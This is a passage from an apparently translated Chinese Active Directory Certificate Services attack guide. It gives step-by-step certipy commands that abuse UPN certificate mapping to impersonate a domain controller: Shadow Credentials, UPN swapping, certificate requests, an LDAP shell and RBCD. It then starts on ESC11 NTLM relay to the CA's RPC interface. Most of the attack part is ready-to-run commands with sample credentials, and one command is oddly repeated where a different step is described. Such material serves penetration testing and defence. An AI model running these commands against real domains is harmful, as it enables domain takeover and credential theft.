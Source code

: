 在 `CertificateMappingMethods` 包含 `UPN` 位标志 (`0x4`) 的情况下，具有 `GenericWrite` 权限的账户 A 可以破坏任何缺少 `userPrincipalName` 属性的账户 B，包括计算机账户和内置域管理员 `Administrator`。

在这里，目标是破坏 `DC$@corp.local`，首先通过 Shadow Credentials 获取 `Jane` 的哈希，利用 `GenericWrite`。
```bash
certipy shadow auto -username John@corp.local -p Passw0rd! -account Jane
```
`Jane`的`userPrincipalName`被设置为`DC$@corp.local`。
```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn 'DC$@corp.local'
```
请求一个用于客户端身份验证的证书，作为 `Jane` 使用默认的 `User` 模板。
```bash
certipy req -ca 'corp-DC-CA' -username Jane@corp.local -hashes <hash>
```
`Jane`的`userPrincipalName`在此过程后恢复为其原始值。
```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn 'Jane@corp.local'
```
通过 Schannel 进行身份验证时，使用 Certipy 的 `-ldap-shell` 选项，表示身份验证成功为 `u:CORP\DC$`。
```bash
certipy auth -pfx dc.pfx -dc-ip 172.16.126.128 -ldap-shell
```
通过LDAP shell，命令如`set_rbcd`启用基于资源的受限委派（RBCD）攻击，可能会危及域控制器。
```bash
certipy auth -pfx dc.pfx -dc-ip 172.16.126.128 -ldap-shell
```
此漏洞还扩展到任何缺少 `userPrincipalName` 的用户帐户，或其与 `sAMAccountName` 不匹配的情况，默认的 `Administrator@corp.local` 是一个主要目标，因为它具有提升的 LDAP 权限，并且默认情况下缺少 `userPrincipalName`。

## Relaying NTLM to ICPR - ESC11

### Explanation

如果 CA 服务器未配置 `IF_ENFORCEENCRYPTICERTREQUEST`，则可以通过 RPC 服务进行未签名的 NTLM 中继攻击。[Reference in here](https://blog.compass-security.com/2022/11/relaying-to-ad-certificate-services-over-rpc/)。

您可以使用 `certipy` 来枚举 `Enforce Encryption for Requests` 是否被禁用，certipy 将显示 `ESC11` 漏洞。
```bash
$ certipy find -u mane@domain.local -p 'password' -dc-ip 192.168.100.100 -stdout
Certipy v4.0.0 - by Oliver Lyak (ly4k)

Certificate Authorities
0
CA Name                             : DC01-CA
DNS Name                            : DC01.domain.local
Certificate Subject                 : CN=DC01-CA, DC=domain, DC=local
....
Enforce Encryption for Requests     : Disabled
....
[!] Vulnerabilities
ESC11                             : Encryption is not enforced for ICPR requests and Request Disposition is set to Issue

```
### 滥用场景
